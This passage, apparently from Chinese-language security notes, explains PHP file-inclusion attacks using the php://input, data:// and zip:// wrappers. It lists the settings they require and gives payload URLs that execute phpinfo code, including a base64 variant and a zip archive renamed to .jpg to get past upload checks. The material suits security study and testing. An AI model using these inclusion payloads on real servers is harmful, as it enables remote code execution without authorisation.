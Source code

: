 `http://127.0.0.1/index.php?file=php://input`

## data://

### 条件

- `allow_url_fopen`：`on`
- `allow_url_include`:`on`

### 作用

自`PHP>=5.2.0`起，可以使用`data://`数据流封装器，以传递相应格式的数据。通常可以用来执行`PHP`代码。

### 用法

- `data://text/plain,<?php%20phpinfo()?>`
- `data://text/plain;base64,<?php%20phpinfo()?>`

### 示例

- data://text/plain,

  ```
  http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
  ```

- data://text/plain;base64,

  ```
  http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
  ```

## zip://&bzip2://&zlib://

### 条件

- `allow_url_fopen`：`on/off`
- `allow_url_include`:`on/off`

### 作用

`zip://&bzip2://&zlib://`均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀:`jpg` `png` `gif` `xxx`等等。

### 示例

- `zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]`

  压缩`phpinfo.txt`为`phpinfo.zip`，压缩包重命名为`phpinfo.jpg`，并上传

  ```
  http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
  ```

- compress.bzip2: //file.bz2

  压缩phpinfo.txt为 phpinfo.bz2并上传（同样支持任意后缀名)
